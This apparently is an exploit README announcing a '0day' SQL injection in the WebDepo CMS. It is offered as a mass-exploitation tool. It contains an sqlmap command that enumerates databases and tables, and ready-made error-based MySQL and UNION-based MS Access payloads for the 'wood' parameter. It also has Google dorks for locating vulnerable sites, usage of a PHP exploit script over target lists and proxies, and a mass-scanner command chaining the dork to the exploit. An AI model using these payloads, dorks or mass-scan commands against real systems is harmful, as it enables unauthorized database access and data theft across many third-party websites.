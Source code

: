 - 0DAY WebDepo SQL injection /INURL-BRASIL
------
>MINI 3xplo1t-SqlMap - (0DAY) WebDepo -SQL injection

```
  # AUTOR:        Cleiton Pinheiro / Nick: googleINURL
  # Blog:         http://blog.inurl.com.br
  # Twitter:      https://twitter.com/googleinurl
  # Fanpage:      https://fb.com/InurlBrasil
  # Pastebin      http://pastebin.com/u/Googleinurl
  # GIT:          https://github.com/googleinurl
  # PSS:          http://packetstormsecurity.com/user/googleinurl
  # YOUTUBE:      http://youtube.com/c/INURLBrasil
  # PLUS:         http://google.com/+INURLBrasil
```
-   VENTOR:       http://www.webdepot.co.il

-   Vulnerability Description
------
Records and client practice management application
CMS WebDepo suffers from multiple SQL injection vulnerabilitie.

-   Tool Description
------
Automation script explores targets with the help of SqlMap tool
Execute command SqlMap
```
python {$params['folder']} -u '{$params['target']}/text.asp?wood=1' -p wood --batch --dbms=MySQL {$params['proxy']} --random-agent --answers='follow=N' --dbs --tables
```
- GET VULN
------
SQL can be injected in the following GET
```
GET VULN:     wood=(id)
$wood=intval($_REQUEST['wood'])
Ex: http://target.us/text.asp?wood=1
``` 
  
- XPL inject DBMS: 'MySQL'
------
```
Exploit:  +AND+(SELECT 8880 FROM(SELECT COUNT(*),CONCAT(0x496e75726c42726173696c,0x3a3a,version(),(SELECT (CASE WHEN (8880=8880) THEN 1 ELSE 0 END)),0x717a727a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)
http://target.us/text.asp?wood=(id)+Exploit
``` 

- XPL inject DBMS: 'Microsoft Access'
------
```
Exploit: +UNION+ALL+SELECT+NULL,NULL,NULL,CHR(113)&CHR(112)&CHR(120)&CHR(112)&CHR(113)&CHR(85)&CHR(116)&CHR(106)&CHR(110)&CHR(108)&CHR(90)&CHR(74)&CHR(113)&CHR(88)&CHR(116)&CHR(113)&CHR(118)&CHR(111)&CHR(100)&CHR(113),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL FROM MSysAccessObjects%16
http://target.us/text.asp?wood=(id)+Exploit
``` 

- GOOGLE DORK
------
```
inurl:"text.asp?wood="
site:il inurl:"text.asp?wood="
site:com inurl:"text.asp?wood="
```

- COMMAND --help:
------
```
   -t : SET TARGET.
   -f : SET FILE TARGETS.
   -p : SET PROXY
   Execute:
                 php WebDepoxpl.php -t target
                 php WebDepoxpl.php -f targets.txt
                 php WebDepoxpl.php -t target -p 'http://localhost:9090'
```
 
- EXPLOIT MASS USE SCANNER INURLBR
------
``` 
./inurlbr.php --dork 'inurl:text.asp?wood=' -s 0dayWebDepo.txt -q 1,6 --exploit-get "?´'0x27" --comand-vul "php WebDepoxpl.php -t '_TARGET_'"
``` 

- DOWNLOAD INURLBR
------
https://github.com/googleinurl/SCANNER-INURLBR

- REFERENCE
------
[1] http://blog.inurl.com.br/2015/03/0day-webdepo-sql-injection.html
[2] https://msdn.microsoft.com/en-us/library/ff648339.aspx
 
